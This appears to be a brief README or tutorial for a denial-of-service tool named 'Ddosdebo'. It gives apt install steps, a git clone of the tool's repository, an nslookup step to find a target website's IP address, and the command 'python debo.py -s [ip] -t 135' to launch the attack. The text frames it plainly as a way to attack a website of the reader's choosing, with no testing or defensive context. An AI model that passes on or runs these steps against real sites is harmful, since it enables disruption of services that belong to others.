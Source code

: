 $ apt update
$ apt upgrade
$ apt install python
$ apt install git
$ apt install dnsutils
$ git clone https://github.com/opsdebo/Ddosdebo/

debo need the Name Server of a website which you want to attack...
To get the Name Server...just type
$ nslookup example.com
Note the IP Address of that Website

then
$ cd debo
$ python debo.py -s [ip Address] -t 135
example:
$ python debo.py -s 123.45.67.89 -t 135
